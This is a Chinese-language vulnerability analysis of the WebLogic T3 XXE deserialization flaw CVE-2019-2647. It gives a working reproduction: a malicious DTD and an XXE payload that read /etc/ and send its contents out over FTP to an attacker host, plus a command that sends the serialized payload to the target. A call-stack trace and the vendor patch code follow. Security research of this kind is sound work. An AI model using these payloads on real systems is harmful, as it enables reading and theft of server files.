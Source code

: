 # Weblogic T3 XXE 反序列化漏洞-CVE-2019-2647

## 漏洞原理

该漏洞点在weblogic.wsee.wstx.internal.ForeignRecoveryContext#readExternal方法可以调用EndpointReference.readFrom方法间接调用weblogic.xml.jaxp.RegistryXMLReader#parse(org.xml.sax.InputSource)来解析**SAXParserFactory**对象加载外部实体

## 漏洞复现

工具：VulnsDebug

在攻击机上创建一个目录，在该目录下创建空的my.dtd文件，然后开启http和ftp服务

mkdir xxe

cd xxe

vim my.dtd

```
<!ENTITY % all
"<!ENTITY &#x25; ftp SYSTEM 'ftp://192.168.8.133:2121/%file;'>"
>
%all; 
```

python -m http.server 8000

python -m pyftpdlib 2121

![image-20221206235407400](D:/Desktop/%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/Weblogic/Assets/Weblogic%20T3%20XXE%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-1-CVE-2019-2647/image-20221206235407400.png)

创建test.xml文件（功能用于列出/etc/目录下文件）

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE ANY [
        <!ENTITY % file SYSTEM "file:///etc/">
        <!ENTITY % dtd SYSTEM "http://192.168.8.133:8000/my.dtd">
        %dtd;
      %ftp;
        ]>
<ANY>xxe</ANY>
```

![image-20221206235509816](D:/Desktop/%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/Weblogic/Assets/Weblogic%20T3%20XXE%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-1-CVE-2019-2647/image-20221206235509816.png) 

运行VulnsDebug的Payload.XXE.CVE_2019_2647#main生成序列化文件

 ![image-20221206235606934](D:/Desktop/%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/Weblogic/Assets/Weblogic%20T3%20XXE%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-1-CVE-2019-2647/image-20221206235606934.png) 

向服务器发送序列化数据

python weblogic_t3.py 192.168.8.139 7001 xxe/CVE-2019-2647.ser

![image-20221206235722179](D:/Desktop/%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/Weblogic/Assets/Weblogic%20T3%20XXE%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-1-CVE-2019-2647/image-20221206235722179.png) 

攻击机http服务成功接收请求，ftp服务成功读取weblogic服务器/etc/目录下文件

![image-20221206235920271](D:/Desktop/%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/Weblogic/Assets/Weblogic%20T3%20XXE%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-1-CVE-2019-2647/image-20221206235920271.png)

## 漏洞分析

调用栈

```
parse:152, RegistryXMLReader (weblogic.xml.jaxp)
unmarshal0:217, UnmarshallerImpl (com.sun.xml.bind.v2.runtime.unmarshaller)
unmarshal:189, UnmarshallerImpl (com.sun.xml.bind.v2.runtime.unmarshaller)
unmarshal:157, AbstractUnmarshallerImpl (javax.xml.bind.helpers)
unmarshal:125, AbstractUnmarshallerImpl (javax.xml.bind.helpers)
run:136, ProviderImpl$1 (com.sun.xml.ws.spi)
run:132, ProviderImpl$1 (com.sun.xml.ws.spi)
doPrivileged:-1, AccessController (java.security)
readEndpointReference:132, ProviderImpl (com.sun.xml.ws.spi)
readFrom:109, EndpointReference (javax.xml.ws)
readExternal:104, ForeignRecoveryContext (weblogic.wsee.wstx.internal)
readExternalData:1835, ObjectInputStream (java.io)
readOrdinaryObject:1794, ObjectInputStream (java.io)
readObject0:1348, ObjectInputStream (java.io)
readObject:370, ObjectInputStream (java.io)
readObject:66, InboundMsgAbbrev (weblogic.rjvm)
read:38, InboundMsgAbbrev (weblogic.rjvm)
readMsgAbbrevs:283, MsgAbbrevJVMConnection (weblogic.rjvm)
init:213, MsgAbbrevInputStream (weblogic.rjvm)
dispatch:498, MsgAbbrevJVMConnection (weblogic.rjvm)
dispatch:330, MuxableSocketT3 (weblogic.rjvm.t3)
dispatch:387, BaseAbstractMuxableSocket (weblogic.socket)
readReadySocketOnce:967, SocketMuxer (weblogic.socket)
readReadySocket:899, SocketMuxer (weblogic.socket)
processSockets:130, PosixSocketMuxer (weblogic.socket)
run:29, SocketReaderRequest (weblogic.socket)
execute:42, SocketReaderRequest (weblogic.socket)
execute:145, ExecuteThread (weblogic.kernel)
run:117, ExecuteThread (weblogic.kernel)
```

## 漏洞修复

漏洞补丁将SAXParserFactory类setFeature禁止加载外部实体

**修复前代码**

weblogic.wsee.wstx.internal.ForeignRecoveryContext#readExternal

```java
public void readExternal(ObjectInput var1) throws ClassNotFoundException, IOException {
    klassVersion = var1.readInt();
    this.fxid = (Xid)var1.readObject();
    this.debug("ForeignRecoveryContext.readExternal tid:" + this.fxid);
    this.version = (Version)var1.readObject();
    int var2 = var1.readInt();
    byte[] var3 = new byte[var2];
    var1.readFully(var3);
    this.epr = EndpointReference.readFrom(new StreamSource(new ByteArrayInputStream(var3)));
    this.debug("ForeignRecoveryContext.readExternal EndpointReference:" + this.epr);
    ForeignRecoveryContextManager.getInstance().add(this);
}
```

**修复后代码**

```java
package weblogic.wsee.wstx.wsat;
import ...
public class WSATStreamHelper {
   public static Source convert(InputStream in) {
      SAXParserFactory spf = SAXParserFactory.newInstance();
      SAXSource xmlSource = null;
      try {
         spf.setFeature("http://xml.org/sax/features/external-general-entities", false);
         spf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
         spf.setFeature("http://xml.org/sax/features/validation", false);
         spf.setNamespaceAware(true);
         spf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
         xmlSource = new SAXSource(spf.newSAXParser().getXMLReader(), new InputSource(in));
      } catch (Exception var4) {
         if (WSATHelper.isDebugEnabled()) {
            WSATHelper.getInstance().debug("Failed to call setFeature in SAXParserFactory. ");
         }
      }
      return xmlSource;
   }
}
```

weblogic.wsee.wstx.internal.ForeignRecoveryContext#readExternal

```java
public void readExternal(ObjectInput in) throws ClassNotFoundException, IOException {
      klassVersion = in.readInt();
      this.fxid = (Xid)in.readObject();
      this.debug("ForeignRecoveryContext.readExternal tid:" + this.fxid);
      this.version = (Version)in.readObject();
      int len = in.readInt();
      byte[] eprBytes = new byte[len];
      in.readFully(eprBytes);
      this.epr = EndpointReference.readFrom(WSATStreamHelper.convert(new ByteArrayInputStream(eprBytes)));
      this.debug("ForeignRecoveryContext.readExternal EndpointReference:" + this.epr);
      ForeignRecoveryContextManager.getInstance().add(this);
   }
```



## 参考

https://paper.seebug.org/906/

https://paper.seebug.org/900/